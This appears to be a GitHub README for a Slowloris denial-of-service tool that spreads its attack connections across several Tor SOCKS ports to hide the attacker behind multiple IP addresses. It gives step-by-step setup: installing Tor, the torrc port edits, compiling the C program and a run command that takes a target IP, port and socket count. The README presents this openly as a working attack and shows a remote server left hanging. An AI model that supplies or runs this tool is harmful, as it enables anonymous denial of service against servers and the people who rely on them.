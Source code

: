 # Slow Loris with Tor
Slow loris DoS attack with Tor ports (tested in Kali Linux 2020)

This repo is simply an extra version of Slow Loris, that has the following approach:
1. With Tor installed, you edit the Tor file to indicate how many Socks ports Tor will use (in this example, I use 5 ports by default: 9050-9090)
2. Then the total sockets that you want to perform the attack with, will be split to the Tor ports and executed in paraller (through threading)

The goal of this is to experiment with having multiple IPs from your machine that perform the attack

Here are some instructions on how to run the program:
1. Install tor
`sudo apt-get install tor`

2. Then go to `/etc/tor/torrc`
Find `SocksPort` and add the ports you want, as shown below
```bash
## Tor opens a socks proxy on port 9050 by default -- even if you don't
## configure one below. Set "SocksPort 0" if you plan to run Tor only
## as a relay, and not make any local application connections yourself.
SocksPort 9050 # Default: Bind to localhost:9050 for local connections.
SocksPort 9060
SocksPort 9070
SocksPort 9080
SocksPort 9090
```
Then find `ControlPort` and add SocksPort+1
```bash
## The port on which Tor will listen for local connections from Tor
## controller applications, as documented in control-spec.txt.
ControlPort 9051
ControlPort 9061
ControlPort 9071
ControlPort 9081
ControlPort 9091
```

Save the file - you do not need to start Tor as the bash script included in the repo starts it

3. If you define different number of SOCKS ports, you need to go to `header_files/constants.h` and change:
`TOR_PORTS_NUM` and the tor_ports array

4. Complile the slow_loris.c file (and every time you do changes to it)  
`gcc slow_loris.c -o slow_loris -lpthread -g`  (the flag -g is optional but will help with debugging)

5. Run the main script  
`sudo chmod +x slow_loris_tor`  
`sudo ./slow_loris_tor -t <TARGET_IP> -p <TARGET_PORT> -s <TOTAL_ATTACK_SOCKETS>`

NOTE:
Currently this code is incomplete. It runs against an IP and performs the attack, but needs changes that will come in subsequent versions.
But hopefully can be something you can play with and make it awesome!

An execution example below, you can see the different source IP addresses and also a simple refresh on the remote server can't happen as it keeps loading

[![IP addresses](http://i.imgur.com/dwqS5f6.png)]()

[![Constant loading](http://i.imgur.com/8yPJH2x.png)]()


#TODO
- Fix the (awful) memory management with less static arrays
- Rework on data types
- Change unsafe functions like strcpy with safer versions
